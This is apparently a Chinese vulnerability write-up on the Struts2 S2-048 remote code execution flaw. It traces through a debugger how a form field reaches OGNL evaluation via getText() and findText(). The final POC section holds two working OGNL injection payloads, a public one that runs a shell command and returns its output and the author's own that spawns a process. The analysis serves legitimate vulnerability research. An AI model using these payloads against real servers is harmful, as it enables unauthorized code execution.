








假设已知条件为官方说明:
> 漏洞产生的原因是将用户可控的值添加到 ActionMessage 并在客户前端展示，导致其进入 getText 函数，最后 message 被当作 ognl 表达式执行，攻击者可以构造恶意的字段值通过Struts2的struts2-struts1-plugin插件，远程执行代码

进行数据追踪。

## 查找漏洞点

可以看到，有个`SaveGangsterAction`很明显符合描述的操作，先跟进去看，发现操作都是被包含在`execute`函数里的，此函数的作用将获取到的内容进行一个拼接，那就接着找，`Alt+shift+7`查找调用，

很明显的看到这个插件里调用了函数，跟进去，进到了`Struts1Action`的`execute`函数里，并且这个函数里出现了漏洞描述中的`getText()`

## 开始调试

先运行起来，就在`ActionForward forward = action.execute(mapping, actionForm, request, response);`下个断点，追一下数据，看看数据是如何进入到`getText()`中的

先查一下`SaveGangsterAction`对应的action
```
```
http://localhost:8080/integration/saveGangster.action
```
看一下前端的写法
```
<%@ taglib prefix="s" uri="/struts-tags" %>
<html>
<head>
    <title>Struts2 Showcase - Struts1 Integration</title>
    <s:head/>
</head>

<body>

<div class="page-header">
    <h1>Struts1 Integration</h1>
</div>

<div class="container-fluid">
    <div class="row-fluid">
        <div class="span12">


            <s:form action="saveGangster" namespace="/integration">

                <s:textfield
                        label="Gangster Name"
                        name="name"/>
                <s:textfield
                        label="Gangster Age"
                        name="age"/>
                <s:checkbox
                        label="Gangster Busted Before"
                        name="bustedBefore"/>
                <s:textarea
                        cols="30"
                        rows="5"
                        label="Gangster Description"
                        name="description"/>
                <s:submit cssClass="btn btn-primary"/>

            </s:form>


        </div>
    </div>
</div>
</body>
</html>
```
这儿是`getName()`，因此我们只需要在`name`处做手脚便可以，输入`${123+321}`试试，返回的结果是`444`，看一下数据怎么传输的

`message`的值是已经拼接完成的

然后在下面进入到的是

先打个断点，然后f7跟进去看看
看一下这个函数的调用栈

三次`getText()`后进入到一个`findText()`，然后这个`findText()`里出现了很敏感的一行代码
```
ValueStack valueStack = ActionContext.getContext().getValueStack();
```
这儿便开始了OGNL的调用，然后又返回一个新的`findText()`，跟进去，但是整个追踪完就直接返回到最外面的`getText()`了，那肯定是漏了什么

## 追踪`valueStack`

重新想一下，`findText()`里面出现的
```
ValueStack valueStack = ActionContext.getContext().getValueStack();
```
而且传入其中的还有一个参数是`aTextName`，这个值是`Gangster ${123+321} added successfully`

那如果后面出现了`valueStack.findValue(aTextName)`这样形式的东西，那不就是漏洞了？

重新追一下数据，查看这个函数里哪些`valueStack`被调用

发现一个是`getMessage()`另一个是`getDefaultMessage()`，并且两个函数都用到一个`translateVariables()`函数，且都传入了`aTextName`，关于这个函数，可以借鉴一下`s2-016`

两个函数分别跟的时候，发现`getMessage`会在进入`translateVariables()`前就先返回`null`，因此不符合条件

再看`getDefaultMessage()`

追进去看一下数据

可以看到，符合了`valueStack.findValue(aTextName)`的形式

### POC

先看一下已经公布的常用的POC：
```java
${(#dm=@\u006Fgnl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess=#dm).(#ef='echo s2-048-EXISTS').(#iswin=(@\u006Aava.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#efe=(#iswin?{'cmd.exe','/c',#ef}:{'/bin/bash','-c',#ef})).(#p=new \u006Aava.lang.ProcessBuilder(#efe)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```
上面的大多比较废话，然后因为方便输出所以调用了@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()，然后替换了输出

写一下我的POC：
```java
${(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(new java.lang.ProcessBuilder('gedit').start())}
```
很简单理解，首先先覆盖`_memberAccess`绕过`SecurityMemberAccess`，然后再调用`ProcessBuilder`执行命令。

这当然有限制条件：
```
<constant name="struts.enable.DynamicMethodInvocation" value="true" />
```
不过是默认开启的